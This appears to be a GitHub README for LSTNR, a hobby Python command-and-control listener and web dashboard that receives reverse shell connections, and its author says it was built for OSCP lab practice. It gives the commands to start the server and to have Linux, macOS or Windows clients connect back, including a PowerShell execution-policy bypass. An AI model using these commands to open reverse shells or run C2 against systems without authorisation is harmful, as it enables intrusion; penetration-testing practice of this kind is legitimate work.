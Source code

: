 # LSTNR
Python webserver that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

Remote devices can be managed from the DeathStar webpage.

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Web page
<img width="1162" alt="Screenshot 2024-12-21 at 1 03 20 AM" src="https://github.com/user-attachments/assets/9145dc13-14d0-440c-9d00-9a60f547bbc5" />

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# Web C2 server 
1. Start the server
    - `python3 lstnr-web.py`

2. Open link in web browser
    - `firefox 127.0.0.1:8000`

3. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

4. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `bash client.sh`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
